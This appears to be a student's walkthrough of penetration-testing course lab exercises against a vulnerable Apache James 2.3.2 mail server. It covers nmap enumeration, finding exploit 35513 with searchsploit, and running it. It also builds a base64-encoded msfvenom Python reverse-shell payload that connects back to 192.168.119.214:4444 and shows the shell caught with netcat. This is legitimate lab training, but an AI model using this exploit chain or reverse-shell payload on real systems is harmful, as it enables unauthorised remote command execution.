





Exercises

# 14.3.1.1
## 14.3.1.1.1. Connect to your dedicated Linux client and start the vulnerable Apache James service using the **/usr/local/james/bin/run.sh** script.


Start the Linux client
```plaintext
kali@kali:~$ rdesktop 192.168.214.44 -u root -p lab
Autoselecting keyboard map 'en-us' from locale
Connection established using plain RDP.
Sound(warning): rdpsnd_process_packet(), Unhandled opcode 0x27
Clipboard(error): xclip_handle_SelectionNotify(), unable to find a textual target to satisfy RDP clipboard text request
```

Open a terminal, and try running the script
```plaintext
root@debian:~# cd /usr/local/james/bin/
root@debian:/usr/local/james/bin# ./run.sh 
```


```plaintext
root@debian:/usr/local/james/bin# which java
/usr/bin/java
root@debian:/usr/local/james/bin# dirname $(dirname $(readlink -f $(which java)))
/usr/lib/jvm/java-8-openjdk-i386/jre
root@debian:/usr/local/james/bin# export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-i386/jre
root@debian:/usr/local/james/bin# export PATH=$JAVA_HOME:$PATH
root@debian:/usr/local/james/bin# echo $JAVA_HOME
/usr/lib/jvm/java-8-openjdk-i386/jre
root@debian:/usr/local/james/bin# echo $PATH
/usr/lib/jvm/java-8-openjdk-i386/jre:/sbin:/bin:/usr/bin:/usr/local/bin
```

Run .sh. The James Server is now running.



## 14.3.1.1.2. Enumerate the target using port scanning utilities and use informatoin from the banners and Internet searches to determine the software running on the machine.

Run Nmap:
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ sudo nmap 192.168.214.44 -p- -sV -vv --open --reason
...
Scanning 192.168.214.44 [65535 ports]
Discovered open port 25/tcp on 192.168.214.44
Discovered open port 110/tcp on 192.168.214.44
Discovered open port 3389/tcp on 192.168.214.44
Discovered open port 22/tcp on 192.168.214.44
Discovered open port 119/tcp on 192.168.214.44
Discovered open port 4555/tcp on 192.168.214.44
Completed SYN Stealth Scan at 11:17, 24.05s elapsed (65535 total ports)
Initiating Service scan at 11:17
Scanning 6 services on 192.168.214.44
Completed Service scan at 11:20, 156.88s elapsed (6 services on 1 host)
NSE: Script scanning 192.168.214.44.
...
Nmap scan report for 192.168.214.44
Host is up, received echo-reply ttl 63 (0.061s latency).                                                                     
Scanned at 2020-09-26 11:17:19 EDT for 182s                                                                                  
Not shown: 65529 closed ports                                                                                                
Reason: 65529 resets                                                                                                         
PORT     STATE SERVICE       REASON         VERSION                                                                          
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)                                    
25/tcp   open  smtp          syn-ack ttl 63 JAMES smtpd 2.3.2                                                                
110/tcp  open  pop3          syn-ack ttl 63 JAMES pop3d 2.3.2                                                                
119/tcp  open  nntp          syn-ack ttl 63 JAMES nntpd (posting ok)                                                         
3389/tcp open  ms-wbt-server syn-ack ttl 63 xrdp                                                                             
4555/tcp open  rsip?         syn-ack ttl 63                                                                                  
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.80%I=7%D=9/26%Time=5F6F5BA2%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\nPl
SF:ease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPasswo
SF:rd:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: debian; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.56 seconds
           Raw packets sent: 67634 (2.976MB) | Rcvd: 67485 (2.709MB)

```

Run an aggressive scan on port 4555
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ sudo nmap 192.168.214.44 -p4555 -sV -A -vv --open --reason
...
Nmap scan report for 192.168.214.44
Host is up, received echo-reply ttl 63 (0.020s latency).
Scanned at 2020-09-26 11:23:56 EDT for 176s

PORT     STATE SERVICE REASON         VERSION
4555/tcp open  rsip?   syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
```


## 14.3.1.1.3. Use the *searchsploit* tool to find exploits for this version on the online resources mentioned in this module.

From the previous nmap scans, we see that the James Server is version 2.3.2

### Searchsploit
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ searchsploit james 2.3.2
------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------- ---------------------------------
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploit)       | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution                                       | linux/remote/35513.py
------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ 
```

### SecurityFocus.com
Google Search: `james 2.3.2 remote exploit site:securityfocus.com`

Discussion on James Server 2.3.2

Unfortunately no exploits listed


### PacketStormSecurity.com
Google Search: `james 2.3.2 remote exploit site:packetstormsecurity.com`

Here is an exploit for "Arbitrary Command Execution"

Another for "Insecure User Creation / Arbitrary File Write"



### Google Search
We use this Google search string to exclude results from exploit-db.com, securityfocus.com, and packetstormsecurity.com
`james server 2.3.2 remote exploit -site:exploit-db.com -site: packetstormsecurity.com -site:securityfocus.com`


## 14.3.1.1.4. Launch the exploit and verify that the payload is executed upon logging in to the machine.

Download the exploit and run it on 192.168.214.44
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ searchsploit 35513
------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------- ---------------------------------
Apache James Server 2.3.2 - Remote Command Execution                                       | linux/remote/35513.py
------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ searchsploit -m 35513
  Exploit: Apache James Server 2.3.2 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/35513
     Path: /usr/share/exploitdb/exploits/linux/remote/35513.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits/35513.py


kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ python 35513.py 
[-]Usage: python 35513.py <ip>
[-]Exemple: python 35513.py 127.0.0.1
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ python 35513.py 192.168.214.44
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```

Note that the payload in 35513.py is this:


Now we login with the SSH credentials we already have (root:lab), then confirm that /root/proof.txt exists.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ ssh root@192.168.214.44
root@192.168.214.44's password: 
Linux debian 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan 21 09:41:53 2020 from 192.168.118.4
-bash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
-bash: L: command not found
-bash: attributestLjava/util/HashMap: No such file or directory
-bash: L
        errorMessagetLjava/lang/String: No such file or directory
-bash: L
        lastUpdatedtLjava/util/Date: No such file or directory
-bash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
-bash: $'L\004nameq~\002L': command not found
-bash: recipientstLjava/util/Collection: No such file or directory
-bash: L: command not found
-bash: $'remoteAddrq~\002L': command not found
-bash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
-bash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
-bash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
-bash: @team.pl>
Message-ID: <3950788.0.1601136120113.JavaMail.root@debian>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 192.168.119.214 ([192.168.119.214])
          by debian (JAMES SMTP Server 2.3.2) with SMTP ID 962
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Sat, 26 Sep 2020 12:01:29 -0400 (EDT)
Date: Sat, 26 Sep 2020 12:01:29 -0400 (EDT)
From: team@team.pl

: No such file or directory
-bash: $'\r': command not found
root@debian:~# whoami
root
root@debian:~# ls -lah /root/proof.txt
-rw-r--r-- 1 root root 0 Sep 26 12:03 /root/proof.txt
root@debian:~# 
```

## 14.3.1.1.5. Attempt to modify the payload variable in order to get a reverse shell on the target machine.

Create a payload with msfvenom
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ sudo msfvenom -p cmd/unix/reverse_python lhost=192.168.119.214 lport=4444 -f raw
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload                                                                                
[-] No arch selected, selecting arch: cmd from the payload                                                                                                         
No encoder or badchars specified, outputting raw payload                                                                                                           
Payload size: 621 bytes                                                                                                                                            
python -c "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCAgICAgICAsICAgICAgIHN1YnByb2Nlc3MgICAgICAgLCAgICAgICBvczsgICAgICAgIGhvc3Q9IjE5Mi4xNjguMTE5LjIxNCI7ICAgICAgICBwb3J0PTQ0NDQ7ICAgICAgICBzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQgICAgICAgLCAgICAgICBzb2NrZXQuU09DS19TVFJFQU0pOyAgICAgICAgcy5jb25uZWN0KChob3N0ICAgICAgICwgICAgICAgcG9ydCkpOyAgICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgICAgICwgICAgICAgMCk7ICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAgICAgLCAgICAgICAxKTsgICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAsICAgICAgIDIpOyAgICAgICAgcD1zdWJwcm9jZXNzLmNhbGwoIi9iaW4vYmFzaCIp')[0]))" 
```

Since the payload will be copied to the python script, be sure to escape all the single quotes with backslashes. The payload string will look like this:
```python
python -c "exec(__import__(\'base64\').b64decode(__import__(\'codecs\').getencoder(\'utf-8\')(\'aW1wb3J0IHNvY2tldCAgICAgICAsICAgICAgIHN1YnByb2Nlc3MgICAgICAgLCAgICAgICBvczsgICAgICAgIGhvc3Q9IjE5Mi4xNjguMTE5LjIxNCI7ICAgICAgICBwb3J0PTQ0NDQ7ICAgICAgICBzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQgICAgICAgLCAgICAgICBzb2NrZXQuU09DS19TVFJFQU0pOyAgICAgICAgcy5jb25uZWN0KChob3N0ICAgICAgICwgICAgICAgcG9ydCkpOyAgICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgICAgICwgICAgICAgMCk7ICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAgICAgLCAgICAgICAxKTsgICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAsICAgICAgIDIpOyAgICAgICAgcD1zdWJwcm9jZXNzLmNhbGwoIi9iaW4vYmFzaCIp\')[0]))"
```

Replace the payload variable in the exploit with the modified payload string (the one with the backslahes to escape single quotes)


Run the modified exploit
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ python 35513_revshell.py 192.168.214.44[+]Connecting to James Remote Administration Tool...
[+]Creating user...                                                                                                                                                
[+]Connecting to James SMTP server...                                                                                                                              
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```

Start a Kali listener
```plaintext

```

SSH in with the credentials we had been given (root:lab)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ ssh root@192.168.214.44root@192.168.214.44's password: 
Linux debian 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep 26 13:29:12 2020 from 192.168.119.214
-bash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
```

Notice we have a shell in the Kali listener


FYI our privilege upon getting a shell depends on the privilege of the SSH user that logged in.

After running the modified exploit again, we SSH in using creds (student:lab)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ python 35513_revshell.py 192.168.214.44
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
kali@kali:~/gitWorkspace/pwk/oscpExercises/14_locatingPublicExploits$ ssh student@192.168.214.44
student@192.168.214.44's password: 
Linux debian 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan 21 09:58:49 2020 from 192.168.118.4
-bash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
```

Notice we caught the reverse shell as 'student' user.
```plaintext 
kali@kali:~$ sudo nc -lnvp 4444                                                    
[sudo] password for kali:                                                          
listening on [any] 4444 ...                                                        
connect to [192.168.119.214] from (UNKNOWN) [192.168.214.44] 47000
whoami
student
id
uid=1000(student) gid=1000(student) groups=1000(student)
```